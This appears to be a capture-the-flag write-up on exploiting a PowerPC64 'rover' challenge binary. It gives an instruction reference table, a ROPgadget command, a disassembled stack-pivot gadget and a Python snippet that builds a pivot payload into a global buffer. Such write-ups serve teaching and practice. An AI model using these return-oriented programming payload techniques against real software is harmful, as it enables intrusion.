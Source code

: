 | Instruction | Name                              | Parameters     | Pseudocode Equivalent | Additional Info                                              |
| ----------- | --------------------------------- | -------------- | --------------------- | ------------------------------------------------------------ |
|             |                                   |                |                       | **Integer Arithmetic Instructions**                          |
| `addi`      | ADD Immediate                     | `rA, rB, iX₁₆` | `rA = rB + iX`        | Adds the values of rB and iX together and stores the result in rA |
|             |                                   |                |                       | **Integer Comparison Instructions**                          |
| `or`        | OR operation                      | `rA, rB, rC`   | `rA = rB \| rC`        | Stores in rA the result of (rB \| rC)                        |
|             |                                   |                |                       | **Branch Instructions**                                      |
| `blr`       | Branch to Link Register           | *N/A*          | `return <r3 / f1>`    | Jumps from the current address to the address stored in LR This is essentially the **return** statement of a function, with  the value currently loaded into either r3 or f1 holding the returned  value, depending on if the return type is a fixed or floating point  value |
| `bctrl`     | Branch to CounT Register and Link |                |                       |                                                              |
|             |                                   |                |                       | **Move to/from Special Purpose Registers Instructions**      |
| `mtctr`     | Move To CounT Register            | `rA`           | `CTR = rA`            | Copies the value of rA into the CTR                          |
| `mtspr`     | Move To Special Purpose Register  | `SPR, rA`      | `SPRs[SPR] = rA`      | Copies the value of rA into the special purpose register SPR |
|             |                                   |                |                       | **Uncategorized instructions (categories WIP)**              |
| `ld`        | Load Doubleword                   | `rA, iX₁₆(rB)` | `rA = *(rB + iX)`     | Loads the value at the address (rB + iX) into rA.            |
|             |                                   |                |                       | **Misc. Instructions**                                       |
| `sc`        | System Call                       | `[iX₇]`        | *N/A*                 | Calls upon the system to perform a service identified by iX If iX is not provided, triggers a system call exception. |



#### Pivot

First we will need someway to execute a ROP chain that is longer than one instruction. We achieve this by pivoting the stack ptr (`r1`) into a user controlled section in memory. The global variable buffer used by the rover struct array `rovers` is a perfect target for a pivot.

Let's dump some gadgets:

```bash
ROPgadget --binary ./main > gadgets.txt
```

An we get this useful pivot gadget:

pivot gadget

```assembly
10000cf8 80 00 3f 38     addi       r1,r31,0x80  ; r1  = r31+0x80
10000cfc 10 00 01 e8     ld         r0,0x10(r1)  ; r0  = *(r1+0x10)
10000d00 a6 03 08 7c     mtspr      LR,r0	 ; lr  = r0
10000d04 f8 ff e1 eb     ld         r31,0x8(r1)  ; r31 = *(r1+0x8)
10000d08 20 00 80 4e     blr                     ; branch to lr
```

which we use to pivot to our user controlled global buffer:

```python
linfo('write rop payload for later')
# global buffer that contains the rover struct array
ROVERS = 0x10110110
# start of planet buffer of first rover
PAYLOAD_START = ROVERS+6 
pivot = flat(
  PAYLOAD_START-0x78, # r31
  cyclic(0x10),
  0x10000cf8, # ctr
)
joke(pivot)

linfo('prepare payload')
```